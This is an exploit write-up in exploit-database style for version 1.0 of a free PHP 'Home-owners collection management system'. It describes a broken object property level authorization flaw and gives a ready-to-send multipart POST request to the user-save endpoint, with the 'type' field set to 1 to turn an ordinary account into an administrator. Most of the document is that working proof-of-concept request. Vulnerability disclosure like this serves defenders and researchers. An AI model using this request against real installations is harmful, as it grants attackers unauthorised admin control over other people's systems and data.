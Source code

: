 # Exploit Title: Home-owners-collection-management-system v1.0 - Broken Object Property Level Authorization(BOPLA)
## Date: 2/1/2024
## Vendor Homepage: https://www.sourcecodester.com/php/15162/home-owners-collection-management-system-phpoop-free-source-code.html
## Tested on: Debian Linux, Apache, Mysql
## Vendor: oretnom23
## Version: v1.0
## Exploit Description:
## Home-owners-collection-management-system v1.0 suffers from BOPLA - Broken Access Control Vulnerability allowing attackers to change his access type to admin(vertical privilege escalation).

## -----------------------------------------------POC-------------------------------------------------------------------
```
POST /hocms/classes/Users.php?f=save HTTP/1.1
...
------WebKitFormBoundaryG59oQyjTJHQHKCEp
Content-Disposition: form-data; name="id"

10
------WebKitFormBoundaryG59oQyjTJHQHKCEp
Content-Disposition: form-data; name="firstname"

user1
------WebKitFormBoundaryG59oQyjTJHQHKCEp
Content-Disposition: form-data; name="lastname"

hh
------WebKitFormBoundaryG59oQyjTJHQHKCEp
Content-Disposition: form-data; name="username"

user1
------WebKitFormBoundaryG59oQyjTJHQHKCEp
Content-Disposition: form-data; name="password"


------WebKitFormBoundaryG59oQyjTJHQHKCEp
Content-Disposition: form-data; name="type"

1(CHANGE HERE)
------WebKitFormBoundaryG59oQyjTJHQHKCEp
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryG59oQyjTJHQHKCEp--
```